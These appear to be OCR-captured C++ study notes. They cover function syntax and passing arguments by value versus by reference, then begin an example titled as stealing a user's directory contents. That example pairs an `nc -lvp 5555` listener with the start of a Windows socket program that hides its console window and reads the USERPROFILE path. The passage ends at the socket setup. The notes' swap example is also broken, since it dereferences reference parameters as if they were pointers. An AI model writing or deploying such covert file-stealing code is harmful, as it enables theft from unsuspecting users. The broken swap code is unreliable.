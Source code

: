 ```cpp
type function_name(param1, param2, ...){
  statements;
}

// function with "formal" parameters
int sum(int x, int y) {
  int z;
  z = x + y;
  return(z);
}
```

In almost any programming language, there are two ways in which we can pass arguments to a function:

* By value
  * Copies the value of an argument into a parameter. Changes made to the parameter do not affect the argument
  * Code in the function does not alter the arguments used by the caller
  * It's a copy of the value of the argument passed into the function
  * What occurs inside the function has NO EFFECT on the variable provided by the caller
* By reference
  * The address of an argument (not the value) is copied into the parameter
  * Inside the function, the address is used to access the actual argument used in the call
  * Changes made to the parameter will affect the argument

```cpp
void swap(int& x, int& y) {
  int temp;
  temp=*x;
  *x=*y;
  *y=temp;
}
```

### Example: Steals user's directory content

Listen for an incoming connection with `nc -lvp 5555`:

```cpp
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#pragma comment(lib, "Ws2_32.lib")
#include <iostream>
#include <winsock2.h>
#include <stdio.h>
#include <stdlib.h>
#include <dirent.h>
#include <string>

char* userDirectory()
{
    char* pPath;
    pPath = getenv ("USERPROFILE");
    if (pPath!=NULL)
    {
        return pPath;
    } else {
        perror("");
    }
}

int main()
{
    ShowWindow(GetConsoleWindow(), SW_HIDE);
    WSADATA WSAData;
    SOCKET server;
```